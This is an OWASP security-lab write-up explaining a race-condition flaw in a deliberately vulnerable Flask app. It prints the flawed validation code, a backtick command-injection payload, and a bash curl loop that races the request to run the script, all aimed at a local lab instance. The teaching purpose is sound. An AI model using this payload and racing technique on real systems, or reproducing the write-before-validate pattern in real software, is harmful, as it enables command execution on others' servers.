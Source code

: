 # KBID XXX - Race Condition

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:racecondition
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:racecondition
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ING!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

{% hint style="success" %}
 Congratulations, you won the race
{% endhint %} 

![](.gitbook/assets/race1.png)


All you need to do now is to add your name to the board and get your price. 

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](.gitbook/assets/race2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](.gitbook/assets/race3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it? 

If we look at the code we see that there are 4 functions being used:

1. `boot_validate(person)` 

	the function receives the username in input and executes the following:
	
	* deletes `"` and `\` from the username
	* opens `hello.sh` file
	* writes a command in it 
	* closes the file
	* logs some useful info 
	* checks if the username is in the format `[A-Za-z0-9 ]*`
	* returns the username if the regex succedes

2. `boot_clean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `boot_run()` executes the `hello.sh` file

4. `boot_reset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

* a GET request is issued to validate the username and call `boot_validate(person)`

```text
GET /?person=test&action=validate
```

* clicking boot, will generate the request to execute the `boot_run()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `boot_run()` executing the `hello.sh` file. 

We also notice that the function `validate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```python

def boot_validate(person):
	#person = person.replace('"',"").replace("\\","")
	bootfile = open("hello.sh","w")
	bootfile.write("echo \"" + person + "\" > hello.txt")
	bootfile.close()

	os.system("echo 'hello.sh updated -- " + str(datetime.datetime.now()) + "' > log.txt")
	valid = os.popen("sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh").read()
	os.system("echo 'hello.sh cleaned -- " + str(datetime.datetime.now()) + "' >> log.txt")
	
	return valid

```

{% hint style="success" %}
 	Everything works fine, so where is the problem?
{% endhint %}

The problem is that in this case, we have a very small window to execute the `boot_run()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `boot_validate`
2. write the malicious payload in `hello.sh`
3. call `boot_run()`
4. `return valid` is called



## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using  '`' backtick. 

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us: 

```sh
#!/bin/bash
while true; do 

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate 
```

If we look in the logs we will see:


![](.gitbook/assets/race4.png)

{% hint style="success" %}
 Congratulations, you won the race for real now!!!!!!!!
{% endhint %} 

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}

